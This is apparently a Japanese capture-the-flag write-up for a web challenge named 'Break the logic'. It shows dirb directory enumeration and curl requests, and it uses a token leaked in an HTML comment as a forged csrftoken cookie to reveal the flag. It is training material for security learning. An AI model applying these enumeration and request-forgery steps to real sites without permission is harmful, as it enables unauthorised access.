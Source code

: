 # Break the logic:Web:pts
Listen to the old man!  
[Click here](https://ch1.sbug.se/)  

# Solution
サイトにアクセスすると`Aren't you ina wrong place!?`と表示される。  
Are you lost?  
[site.png](site/site.png)  
ソースにも不審な点はないのでdirbしてみる。  
```bash
$ dirb https://ch1.sbug.se/
~~~
---- Scanning URL: https://ch1.sbug.se/ ----
+ https://ch1.sbug.se/admin (CODE:301|SIZE:0)
+ https://ch1.sbug.se/submit (CODE:200|SIZE:737)
~~~
```
`admin`があり、ログインページのようだ。  
[admin.png](site/admin.png)  
`/submit`もあるようなので、見ると空白のページだ。  
ソースを見る。  
```bash
$ curl https://ch1.sbug.se/submit
<html>
<head>
<title>half way in!</title>
<script src="/cdn-cgi/apps/head/xnSNotsdYPTd4Qn38KNoSYKvO4k.js"></script><script async src='/cdn-cgi/challenge-platform/h/b/scripts/invisible.js'></script></head>
<body>
<!--we heard that last commander used this key to forge a request:4JqorR6IXT4swdwN0qTPTwxtinom3AbZ5wNlEQjrPzEVJUUmDhVPFX21P3Xsnm04--><br>
</div>
~~~
```
コメントに謎の文字列が埋め込まれている。  
Cookieを確認すると`ASP.NET_SessionId`や`csrftoken`があった。  
`/admin`や`/`でセットされているようだ。  
これかどうかは怪しが先ほどの値をセットし、いろいろとアクセスする。  
```bash
$ curl https://ch1.sbug.se/submit -H "cookie: csrftoken=4JqorR6IXT4swdwN0qTPTwxtinom3AbZ5wNlEQjrPzEVJUUmDhVPFX21P3Xsnm04"
<html>
<head>
<title>half way in!</title>
<script src="/cdn-cgi/apps/head/xnSNotsdYPTd4Qn38KNoSYKvO4k.js"></script><script async src='/cdn-cgi/challenge-platform/h/b/scripts/invisible.js'></script></head>
<body>
<!--keep this one private<br>-->
<!--SBCTF{L0g!cs_M@n_I_H@t3_7h3m}-->
~~~
```
`csrftoken`で`/submit`が正解だった。  

## SBCTF{L0g!cs_M@n_I_H@t3_7h3m}